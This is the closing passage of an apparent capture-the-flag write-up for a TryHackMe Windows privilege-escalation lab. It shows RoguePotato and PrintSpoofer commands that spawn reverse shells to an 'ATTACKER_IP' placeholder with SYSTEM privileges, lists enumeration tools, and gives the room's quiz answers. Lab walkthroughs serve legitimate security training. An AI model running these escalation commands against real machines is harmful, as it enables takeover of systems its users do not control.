C:\Users\user> C:\PrivEsc\RoguePotato.exe -r ATTACKER_IP -e "C:\PrivEsc\reverse.exe" -l 9999
```

To quote the README of the git repository we referred to before:

> JuicyPotato abused ***SeImpersonate*** or ***SeAssignPrimaryToken*** privileges to get execution as SYSTEM. But it fails against Windows Server 2019. RoguePotato can be use to abuse abused SeImpersonate Priviledge, if the target OS is Windows Server 2019.

We have the answers for the 2 questions in this task:

> Name one user privilege that allows this exploit to work.\
> > SeImpersonatePrivilege

> Name the other user privilege that allows this exploit to work.\
> > SeAssignPrimaryTokenPrivilege

### Token Impersonation - PrintSpoofer

This method, as the section heading suggests, uses the [PrintSpoofer exploit](https://github.com/k4sth4/PrintSpoofer) which abuses the ***SeImpersonate*** privilege. To proceed, we begin by starting a listener on our machine, and getting some sort of service account shell. This can be simulated by executing the following command in an elevated command prompt:

```console
C:\Users\user> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

Now, we start yet another listener on a different port, and run the PrintSpoofer exploit to trigger a second reverse shell that has SYSTEM privileges:

```console
C:\Users\user> C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

### Privilege Escalation Scripts

This section just informs us about the names of several different tools that may be used for automated privilege escalation. One of the most popular ones is `winPEASany.exe`...

- winPEASany.exe
- Seatbelt.exe
- PowerUp.ps1
- SharpUp.exe

And that concludes this room!

## Conclusion

I hope this writeup helped in some or the other way. If it did, please feel free to drop a star or follow me on github: https://github.com/NovusEdge

---

Room: [Windows PrivEsc](https://tryhackme.com/room/windows10privesc) by [Tib3rius](https://tryhackme.com/p/Tib3rius)
Author: Aliasgar Khimani
